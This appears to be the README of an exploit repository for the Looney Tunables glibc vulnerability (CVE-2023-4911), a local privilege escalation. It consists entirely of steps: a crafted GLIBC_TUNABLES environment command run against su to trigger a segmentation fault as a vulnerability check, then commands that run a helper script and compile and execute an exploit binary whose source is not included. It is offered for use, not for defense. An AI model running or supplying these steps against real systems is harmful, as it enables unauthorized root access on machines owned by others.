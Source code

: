 ### Step 1
Check if a machine is vulnerable to Looney Tunables CVE-2023-4911
```
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

If we get a `Segmentation fault (core dumped)` go to the next step.

### Step 2
```
python3 libc.py
```

### Step 3
```
gcc -o exp exp.c
./exp
```
